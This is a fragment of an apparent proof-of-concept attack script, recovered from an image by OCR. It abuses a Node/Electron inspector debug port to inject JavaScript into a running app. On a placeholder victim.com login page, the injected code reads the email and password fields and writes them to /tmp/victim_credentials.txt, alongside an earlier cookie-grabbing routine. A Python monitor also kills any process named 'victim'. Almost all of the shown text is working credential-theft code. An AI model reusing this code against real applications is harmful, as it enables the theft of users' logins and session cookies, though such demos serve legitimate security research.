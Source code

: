 ```python
        if (wc.mainFrame.url.includes("https://www.victim.com/account/login")) {
            in_location = true;
            console.log("Injecting creds logger...");
            wc.executeJavaScript(`
                (function() {
                    email = document.getElementById('login_email_id');
                    password = document.getElementById('login_password_id');
                    if (password && email) {
                        return email.value+":"+password.value;
                    }
                })();
            `).then(result => {
                writeToFile("/tmp/victim_credentials.txt", result);
            })
        }
        else if (in_location) {
            wc.executeJavaScript(`alert("Creds stolen and written to /tmp/victim_credentials.txt")`);
            clearInterval(intervalIdCreds);
        }
    }, 10); // Check every 10ms
    setTimeout(() => clearInterval(intervalId), 20000); // Stop after 20 seconds
}

get_cookies();
get_creds();
console.log("Payloads injected");
"""

async def get_debugger_url():
    """
    Fetch the local inspector's WebSocket URL from the JSON endpoint.
    Assumes there's exactly one debug target. 
    """
    global INSPECT_URL

    url = "http://127.0.0.1:9229/json"
    response = requests.get(url)
    data = response.json()
    if not data:
        raise RuntimeError("No debug targets found on port 9229.")
    # data[0] should contain an object with "webSocketDebuggerUrl"
    ws_url = data[0].get("webSocketDebuggerUrl")
    if not ws_url:
        raise RuntimeError("webSocketDebuggerUrl not found in inspector data.")
    INSPECT_URL = ws_url


async def monitor_victim():
    print("Monitoring victim process...")
    found = False
    while not found:
        sleep(1)  # Check every second
        for process in psutil.process_iter(attrs=['pid', 'name']):
            try:
                # Check if the process name contains "victim"
                if process.info['name'] and 'victim' in process.info['name']:
                    found = True
                    print(f"Found victim process (PID: {process.info['pid']}). Terminating...")
                    os.kill(process.info['pid'], 9)  # Force kill the process
            except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
                # Handle processes that might have terminated or are inaccessible
                pass
```